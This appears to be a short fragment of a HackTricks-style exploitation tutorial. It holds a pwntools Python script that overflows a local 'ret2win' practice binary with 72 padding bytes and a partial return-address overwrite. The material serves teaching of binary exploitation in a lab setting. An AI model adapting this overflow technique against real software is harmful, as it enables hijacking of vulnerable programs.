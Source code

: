 <figure><img src="../../../images/image (1213).png" alt="" width="563"><figcaption></figcaption></figure>

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

{{#include ../../../banners/hacktricks-training.md}}



